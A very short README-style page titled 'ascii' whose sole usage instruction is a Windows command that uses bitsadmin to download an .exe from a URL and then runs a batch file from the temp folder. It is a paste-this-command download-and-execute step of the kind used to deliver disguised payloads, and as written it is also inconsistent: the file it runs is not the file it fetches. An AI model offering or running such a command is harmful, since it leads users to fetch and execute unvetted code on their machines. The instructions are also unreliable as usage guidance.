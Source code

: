 # ascii
Use this to use the Programm:
    cmd /c bitsadmin /transfer 8 https://www.example.com/hello.exe; %TEMP%\index.bat
